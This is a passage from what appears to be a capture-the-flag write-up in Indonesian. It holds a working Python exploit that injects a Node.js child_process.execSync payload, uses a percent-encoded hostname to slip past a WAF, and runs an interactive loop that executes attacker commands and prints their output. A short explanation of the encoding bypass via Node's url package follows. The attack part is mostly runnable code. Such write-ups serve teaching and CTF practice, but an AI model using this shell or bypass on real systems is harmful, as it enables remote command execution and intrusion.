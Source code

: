 ```python


def parse_output(x):
    x = re.search(r"(?<=textarea disabled>).*?(?=</textarea>)", x, re.DOTALL)
    x = x.group(0)
    x = unescape(x)
    return x

def craft_payload(x: str):
    x = x.replace("'", "\\'")
    payload = f"""
<div id='eval'>
    require('child_process').execSync('{x}')
</div>
    """.strip()
    return payload

if __name__ == "__main__":
    address = ("localhost", 4444)
    domain_url = "http://localhost%2eus-1.sharedwithexpose.com"
    while (True):
        cmd = input("$ ").strip()
        redisplay()
        payload = craft_payload(cmd)
        serve(*address, payload)
        res = req(domain_url)
        txt = parse_output(res)
        print(txt)
```

Kenapa kita bisa menggunakan percent encoding untuk membypass waf ini?
jawabannya ada pada package "url" dan juga fetch pada nodejs
pada package bawaan node js yaitu "url" kita akan menemukan hasil ini jika kita menambahkan persen di dalam url:

![](Pasted%20image%2020221222215806.png)
